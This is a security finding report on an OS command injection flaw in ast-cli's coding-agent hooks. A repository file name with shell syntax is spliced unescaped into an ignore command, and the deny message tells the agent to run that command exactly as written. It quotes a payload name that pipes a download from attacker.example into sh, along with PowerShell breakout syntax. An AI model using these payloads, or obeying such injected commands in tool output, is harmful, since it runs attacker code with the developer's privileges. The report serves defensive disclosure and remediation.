

# ASCA hook deny splices repository file name unescaped into shell command agent must run

| Field | Value |
|---|---|
| ID | `find_01QiY6DPnun1WydetUHGuXhJ` |
| Severity | **High** |
| Status | open |
| CWE | CWE-78 — OS command injection |
| Created | 2026-10-22T14:07:49.046652Z |
| Claude Security | https://claude.ai/security/findings/find_01QiY6DPnun1WydetUHGuXhJ |

## Description

A person who controls a repository can run commands on a developer's machine. They do it by naming a file with shell syntax in it. It works when the developer uses a hooked coding agent, the agent edits a line the ASCA scan flags, and the developer approves the agent's command. The cause is that `additionalContext` in `asca/delta.go` and the Cursor command builder put the file name into the suggested shell command without safe quoting.

1. **repository author** adds a file whose name contains shell syntax. A name like `util'$(curl -s attacker.example|sh)'.js` is legal on Linux and macOS, and `stageForScan` keeps `filepath.Base(originalPath)` and rejects only `.`, `..`, empty and separator names. ([`internal/commands/agenthooks/guardrails/asca/stage.go:69-75`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/stage.go#L69-L75))
2. **the hook `cxBeforeFileEdit`** scans the agent's edit and denies it. The agent's edit adds or rewrites a line the ASCA scan flags, so `asca.ScanFileEdit` runs and the deny is returned through `RejectEditWithContext`. ([`internal/commands/agenthooks/cx/hooks.go:140-145`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L140-L145))
3. **`convertScanDetails`** copies the engine's `FileName` into each `ScanDetail` unchecked. The report assumes the ASCA engine echoes back the `FileName` that `executeScan` sent, so the hostile basename reaches the finding. ([`internal/wrappers/grpcs/asca-grpc.go:80-96`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/wrappers/grpcs/asca-grpc.go#L80-L96))
4. **`additionalContext`** builds the ignore command around the raw JSON. For Claude, Copilot, Codex and other non-Cursor, non-Gemini agents it writes `--data '%s'` around the `json.Marshal` output, and `json.Marshal` leaves `'`, `$`, `(`, `)`, `|` and `;` unchanged, so the `'` in the name closes the quote. ([`internal/commands/agenthooks/guardrails/asca/delta.go:206-221`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/delta.go#L206-L221))
5. **the deny message** tells the agent to run the command exactly as written. Step 3 says `False positive: run exactly this command for it:`, and the header `hookDenyHeader` presents the text as Checkmarx's own instruction. ([`internal/commands/agenthooks/guardrails/asca/delta.go:246-248`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/delta.go#L246-L248))
6. **the developer's shell** expands the command substitution when the agent's Bash call is approved. The text after the broken quote runs as a command with the developer's privileges.

## Assessment

The attacker authors a repository that holds a file with a shell-syntax name such as `util'$(curl -s attacker.example|sh)'.js`. The file contains code the ASCA scan can detect, on a test-only or dead path. A developer works on it with a hooked agent, and the agent's edit adds or rewrites a flagged line, which the delta check requires. The agent quotes the test-only path as its reason, runs the suggested command, and the developer approves the Bash call. Other routes to the same flaw are the Gemini branch, where `ignore.QuoteDataFlag` only wraps the JSON in single quotes, and the Cursor branch, where `cursorplugin.IgnoreVulnerabilityCommand` uses double quotes that leave `$(…)` and backticks live in bash and zsh. PowerShell is broken out the same way with `';<cmd>;'`. The workspace path in `ignoredFilePathFlag` is wrapped in the same unescaped `'%s'`. The report assumes the ASCA engine echoes the request `FileName` and that `ast-cx-hooks` v1.0.10 delivers `additionalContext` to the agent unchanged. The KICS guardrail uses the same quoting but embeds only `QueryName` and `SimilarityID`, which the repository does not author. A related SCA path in `sca/prompts.go` uses the same helper, and fixing only that one leaves the ASCA branches exploitable.

Impact: The injected command runs with the developer's privileges on the host that runs the agent and `cx`. It can read source code, `~/.checkmarx` config and Checkmarx credentials reachable through `cx`, and it can modify files and persist. Once the quote is broken, the code limits the payload in no way.

## Recommendation

`additionalContext`, `cursorAdditionalContext` via `cursorplugin.IgnoreVulnerabilityCommand`, `ignore.QuoteDataFlag` and `ignoredFilePathFlag` put the repository-derived `FileName` and the workspace path into a shell command string. Their quoting leaves `'` live in the single-quoted forms and `$(` and backticks live in the Cursor double-quoted form.

Fix criteria: No byte of `FileName` or of the workspace path is interpreted by the agent's shell, on any agent branch. This holds either because the payload is passed as a file reference with a fixed path free of shell metacharacters (as `secrets/delta.go` does with `--data @file`), or because every branch uses one correct per-shell quoting routine (POSIX `'\''`, PowerShell doubled `''`). To verify, give a finding the `FileName` `a'$(touch /tmp/p)'.js` and another `a$(touch /tmp/p).js`. Run each generated command in bash, zsh and PowerShell. It must create no file and must store the name intact.

## Evidence

**https://github.com/cx-benchmark/ast-cli**

- [`internal/commands/agenthooks/guardrails/asca/delta.go:206-221`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/delta.go#L206-L221)
- [`internal/services/realtimeengine/ignore/shellquote.go:16-22`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/services/realtimeengine/ignore/shellquote.go#L16-L22)
- [`internal/commands/agenthooks/guardrails/asca/delta.go:268-281`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/delta.go#L268-L281)
- [`internal/commands/agenthooks/cursorplugin/plugin.go:33-46`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cursorplugin/plugin.go#L33-L46)
- [`internal/commands/agenthooks/guardrails/asca/stage.go:69-75`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/stage.go#L69-L75)
- [`internal/services/asca.go:138-149`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/services/asca.go#L138-L149)
- [`internal/wrappers/grpcs/asca-grpc.go:80-96`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/wrappers/grpcs/asca-grpc.go#L80-L96)
- [`internal/commands/agenthooks/guardrails/asca/delta.go:246-248`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/guardrails/asca/delta.go#L246-L248)
- [`internal/commands/agenthooks/cx/hooks.go:140-145`](https://github.com/cx-benchmark/ast-cli/blob/fd7806d4fa55005863ea1cb272ed9e9aadd49866/internal/commands/agenthooks/cx/hooks.go#L140-L145)

